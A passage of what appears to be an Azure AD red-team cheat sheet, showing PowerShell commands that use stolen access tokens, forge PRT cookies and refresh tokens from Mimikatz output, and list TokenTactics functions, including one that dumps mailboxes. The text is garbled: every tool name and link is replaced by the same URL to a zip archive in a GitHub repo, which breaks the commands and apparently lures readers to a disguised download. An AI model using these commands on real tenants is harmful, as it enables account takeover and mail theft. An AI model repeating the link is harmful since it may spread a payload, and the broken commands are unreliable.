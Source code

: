     Import-Module C:\Tools\AzureAD\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    $AADToken = 'eyJ0…'
    Connect-AzureAD -AadAccessToken $AADToken -TenantId <TENANT-ID> -AccountId <ACCOUNT-ID>
    ```

### Refresh Tokens

* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    ```powershell
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip cookie --derivedkey <Key from Mimikatz> --context <Context from Mimikatz> --prt <PRT from Mimikatz>
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip mdm --joindevice --accesstoken (or some combination from the token part) --devicename <Name> --outpfxfile <Some path>
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip token --username <Username> --password <Password>
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip token --refreshtoken <RefreshToken>
    https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip devicekeys --pfxpath https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --refreshtoken (--prtcookie / ---username + --password ) 
    ```
* https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    ```powershell
    Import-Module .\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip
    CommandType     Name                                               Version    Source
    -----------     ----                                               -------    ------
    Function        Clear-Token                                        0.0.1      TokenTactics
    Function        Dump-OWAMailboxViaMSGraphApi                       0.0.1      TokenTactics
    Function        Forge-UserAgent                                    0.0.1      TokenTactics
    Function        Get-AzureToken                                     0.0.1      TokenTactics
    Function        Get-TenantID                                       0.0.1      TokenTactics
    Function        Open-OWAMailboxInBrowser                           0.0.1      TokenTactics
    Function        Parse-JWTtoken                                     0.0.1      TokenTactics
    Function        RefreshTo-AzureCoreManagementToken                 0.0.1      TokenTactics
    Function        RefreshTo-AzureManagementToken                     0.0.1      TokenTactics
    Function        RefreshTo-DODMSGraphToken                          0.0.1      TokenTactics
    Function        RefreshTo-GraphToken                               0.0.1      TokenTactics
    Function        RefreshTo-MAMToken                                 0.0.1      TokenTactics
    Function        RefreshTo-MSGraphToken                             0.0.1      TokenTactics
    Function        RefreshTo-MSManageToken                            0.0.1      TokenTactics
    Function        RefreshTo-MSTeamsToken                             0.0.1      TokenTactics
    Function        RefreshTo-O365SuiteUXToken                         0.0.1      TokenTactics
    Function        RefreshTo-OfficeAppsToken                          0.0.1      TokenTactics
    Function        RefreshTo-OfficeManagementToken                    0.0.1      TokenTactics
    Function        RefreshTo-OutlookToken                             0.0.1      TokenTactics
    Function        RefreshTo-SubstrateToken                           0.0.1      TokenTactics
    ```
